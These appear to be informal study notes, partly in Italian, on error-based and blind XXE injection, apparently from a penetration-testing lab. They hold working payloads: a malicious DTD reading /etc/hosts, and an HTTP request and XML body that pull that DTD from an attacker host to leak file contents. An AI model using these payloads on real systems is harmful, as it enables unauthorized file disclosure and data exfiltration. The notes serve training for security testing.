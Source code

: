 ### error based

If the web application displays runtime errors (e.g., PHP errors) and does not have proper exception handling for the XML input, then we can use this flaw to read the output of the XXE exploit. If the web application neither writes XML output nor displays any errors, we would face a completely blind situation, which we will discuss in the next section.

NOTABENE limitazioni sulla lunghezza della risposta e su caratteri speciali

cmq si crea un dtd locale e lo si serve con python

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

poi si invia la richiesta all'endpoint giusto, che potrebbe essere diverso dal solito, ma che espone un errore non gestito. in questo caso e' `/error`

```shell
POST /error/submitDetails.php HTTP/1.1
Host: 10.129.7.130
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 111
Origin: http://10.129.7.130
Connection: close
Referer: http://10.129.7.130/error

<!DOCTYPE email [
  <!ENTITY % remote SYSTEM "http://10.10.15.253:8000/xxe.dtd">
  %remote;
  %error;
]>
```

### Blind

simile all'attacco su errore, si basa sempre su un DTD esterno.

nella richiesta inviamo

```xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % remote SYSTEM "http://10.10.15.253:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>


```
